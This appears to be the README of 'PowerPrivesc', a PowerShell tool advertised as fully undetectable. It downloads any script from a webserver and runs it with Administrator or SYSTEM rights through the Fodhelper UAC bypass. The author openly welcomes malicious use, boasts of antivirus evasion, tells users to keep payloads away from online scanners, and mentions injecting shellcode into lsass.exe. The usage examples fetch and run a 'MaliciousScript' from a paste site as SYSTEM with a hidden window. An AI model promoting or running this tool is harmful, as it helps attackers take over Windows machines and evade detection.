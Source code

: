 # PowerPrivesc - Your AIO FUD Powershell Privesc Tool
Your all-in-one Powershell privilege escalation tool to run ANY script from a webserver.
You heard it right,ANYTHING! Wether its malicious or not,WE DONT CARE! ;)

The privilige escalation method that this tool used is the same one with the one that used on [MeterPwrShell](https://github.com/GetRektBoy724/MeterPwrShell).
This tool literally can run any script you want,from a normal copy-paste file to injecting shellcode into lsass.exe.
Dont forget to host the script somewhere! (my own recommendation is paste.c-net.org),
And also,dont even worry of your script is getting caught by AVs,we take care of the AV Evasion and Bypass ;)
# Notes
- NEVER UPLOAD THE PAYLOAD THAT GENERATED BY THIS PROGRAM TO ANY ONLINE SCANNER
- NEVER USE THIS PROGRAM FOR MALICIOUS PURPOSE
- SPREADING THE PAYLOAD THAT GENERATED BY THIS PROGRAM IS NOT COOL
- ANY DAMAGE GENERATED BY THIS PROGRAM IS NOT MY (As the program maker) RESPONSIBILTY!!!
- THIS TOOL DOESNT SCAN FOR PRIVESC VULNS,BUT ACTUALLY EXPLOIT A VULNERABILITY THAT WORKS AND UNPATCHED ON ALL WINDOWS 10 (which is Fodhelper Privesc Vulnerability)
- If you have some feature recommendation,post that on Issue
- If you have some issue with the program,try redownloading it again (trust me),cause sometimes i edit the release and fix it without telling 😂
- If you want to know how tf my tool can bypass any AVs,you can check on [this](https://gist.github.com/GetRektBoy724/9383c9580cb1c9935fc04cc7eb7ef004) and [this](https://blog.sevagas.com/Bypass-Antivirus-Dynamic-Analysis)
### This Script Is Tested on Windows 10 v20H2
# Thanks to
- @FuzzySec for that awesome Masquerade PEB script
- @decoder-it for that amazing PPID Spoofing script
- Me for not dying when creating this tool
- Ed Wilson AKA Microsoft Scripting Guy for the great Powershell scripting tutorials
- and the last one is Emeric Nasi for the [research on bypassing AV dynamics](https://blog.sevagas.com/IMG/pdf/BypassAVDynamics.pdf)
# Requirements
- Internet Connection (On The Computer Where You Use This Script)
# Usage
After importing the script with `Import-Module` or invoke the script with `.\Invoke-PowerPrivesc.ps1` or *invoking it remotely*,this is the options you have
```
PARAMETER 
- ScriptLink
The link that goes into the script
- ToPrivilege
The privilege you want,it can be Administrator or SYSTEM
SWITCH 
- HideWindow
Use the switch to hide Powershell windows,By default,this tool shows the window
EXAMPLE
Invoke-PowerPrivesc -ScriptLink https://paste.c-net.org/MaliciousScript -ToPrivilege SYSTEM -HideWindow
Description
-----------
Run the Script as SYSTEM with window hidden
--------------------------------------------------------------------------------------------------------
Invoke-PowerPrivesc -ScriptLink https://paste.c-net.org/MaliciousScript -ToPrivilege Administrator
Description
-----------
Run the Script as Administrator with window not hidden
```
 # To-do List

